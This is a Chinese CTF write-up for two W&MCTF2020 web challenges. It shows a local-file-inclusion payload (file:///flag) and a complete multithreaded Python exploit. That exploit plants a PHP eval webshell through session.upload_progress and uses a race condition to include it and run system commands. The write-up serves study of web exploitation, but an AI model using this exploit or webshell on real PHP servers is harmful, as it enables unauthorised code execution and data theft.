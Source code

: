 ```yaml
---
title: W&MCTF2020
date: 2020-08-03
image: https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210228100849.jpeg
description: W&M战队主板，0day大战
categories: 
- ctf_writeup
tags:
- session.upload_progress
- 文件包含
---
```

0day大战，，，打不动，告辞

------

### web_checkin

考点：文件包含file协议

```
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    file_put_contents($content,'<?php exit();'.$content);
}
```

直接file读取根目录flag

```
?content=file:///flag
```

WMCTF{a1sc8591as98c1a96s85c165as1cas7d89}

 

 

 

### Make PHP Great Again

考点：session.upload_progress文件包含，条件竞争

referer:https://www.freebuf.com/news/202819.html

exp:

```
#coding=utf-8
 
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('tac /var/www/html/flag.php');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' *100* 50)
        resp = session.post( 'http://no_body_knows_php_better_than_me.glzjin.wmctf.wetolink.com', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://no_body_knows_php_better_than_me.glzjin.wmctf.wetolink.com?file=/tmp/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()
 
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

WMCTF{php_s0urc3_1s_om0sh1201}